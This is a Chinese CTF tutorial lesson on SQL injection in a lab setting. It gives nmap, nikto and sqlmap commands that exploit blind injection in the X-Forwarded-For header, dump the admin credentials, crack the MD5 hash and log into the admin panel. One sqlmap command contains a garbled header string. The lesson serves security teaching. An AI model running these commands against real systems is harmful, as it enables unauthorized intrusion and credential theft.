# CTF入门课程：P16：CTF夺旗-sql注入 🚩



在本节课中，我们将要学习网络安全中一个至关重要的知识点——SQL注入。我们将通过一个完整的实战演练，从信息收集开始，到发现并利用一个SQL注入漏洞，最终获取目标系统的后台访问权限。

## 概述




SQL注入漏洞是Web安全领域一个特别重要的攻击面。它可以在任何用户能够输入数据的位置出现。通过构建特殊的输入参数并传入Web应用程序，攻击者可以诱使程序执行非预期的SQL语句，从而实现非法数据入侵。

## 信息探测与扫描

上一节我们介绍了SQL注入的基本概念，本节中我们来看看如何开始一次实战渗透。首先，我们需要对目标进行信息探测。


我们拥有攻击机（IP: 192.168.1.104）和靶场机器（IP: 192.168.1.105）。目标是挖掘Web漏洞，最终登录系统后台。

第一步是使用Nmap工具探测靶场系统信息及开放服务。



以下是使用Nmap进行扫描的命令示例：
```bash
nmap -sS -sV 192.168.1.105
```
更全面的扫描可以使用以下命令，它能以最快速度加载所有功能并输出详细信息：
```bash
nmap -T4 -A -v 192.168.1.105
```
扫描结果显示，靶场仅开放了80端口的HTTP服务，服务器为Nginx。



## 发现敏感页面

在了解了开放服务后，下一步是探索Web服务的敏感目录和页面。我们使用Nikto工具进行扫描。







以下是使用Nikto扫描的命令：
```bash
nikto -host http://192.168.1.105
```
扫描发现了一个管理员登录页面（`/admin/login.php`）。访问该页面后，尝试使用`admin/admin`和`admin/123456`等弱口令登录均告失败，因此我们转向寻找漏洞。





## 漏洞扫描



既然弱口令无效，我们需要检查网站是否存在可利用的安全漏洞。这里我们使用功能强大且专注于Web安全的漏洞扫描器AWVS。

打开AWVS后，添加目标`http://192.168.1.105`并启动全面扫描。扫描过程中，AWVS报告了一个高危漏洞：在HTTP请求头`X-Forwarded-For`处存在一个基于时间的SQL盲注漏洞。

## 利用SQL注入漏洞





发现漏洞后，我们使用自动化SQL注入工具sqlmap来利用它。根据AWVS的报告，注入点在HTTP头的`X-Forwarded-For`字段。

以下是利用该漏洞探测数据库名的命令：
```bash
sqlmap -u http://192.168.1.105 --headers="X-Forwarded-For: *" --dbs --batch
```
命令解释：
*   `-u`: 指定目标URL。
*   `--headers`: 指定存在注入点的HTTP头及其值，`*`号标记了注入位置。
*   `--dbs`: 枚举数据库。
*   `--batch`: 自动选择默认选项，无需人工交互。

sqlmap成功识别出注入点并开始逐个字符地获取数据库名，发现了两个数据库：`information_schema`（系统库）和`photoblog`（用户库）。

## 深入探测与数据提取

我们聚焦于用户数据库`photoblog`。首先枚举其中的表。

以下是枚举数据库表的命令：
```bash
sqlmap -u http://192.168.1.105 --headers="X-Forwarded-For: *" -D photoblog --tables --batch
```
发现了`users`表后，我们进一步枚举该表的字段。

以下是枚举表字段的命令：
```bash
sqlmap -u http://192.168.1.105 --headers="X-Forwarded-For: *" -D photoblog -T users --columns --batch
```
字段枚举结果显示有`login`和`password`字段。最后，我们提取这些字段的具体数据。

以下是提取表数据的命令：
```bash
sqlmap -u http://192.168.1.105 --headers="X-Forwarded- *" -D photoblog -T users -C login,password --dump --batch
```
sqlmap成功提取出数据：用户名为`admin`，密码的MD5哈希值为`0d107d09f5bbe40cade3de5c71e9e9b7`。工具还自动破解了该MD5值，得到明文密码为`P4SSW0RD`。

## 登录系统

使用获取到的凭证`admin` / `P4SSW0RD`成功登录到系统后台，获得了对后台的全部操作权限，例如文件上传等。

## 总结

本节课中我们一起学习了SQL注入漏洞的完整利用流程。
1.  我们使用Nmap和Nikto进行信息收集与敏感目录发现。
2.  利用AWVS漏洞扫描器发现了存在于HTTP头`X-Forwarded-For`中的SQL盲注漏洞。
3.  使用sqlmap工具自动化地利用该漏洞，逐步获取了数据库名、表名、字段名，并最终提取出管理员账号和密码。
4.  使用窃取的凭证成功登录系统后台。




本次实战表明，SQL注入可以发生在任何用户输入的位置，包括URL参数和HTTP报文头部。在CTF比赛或实际渗透测试中，合理利用自动化工具可以极大地提高效率。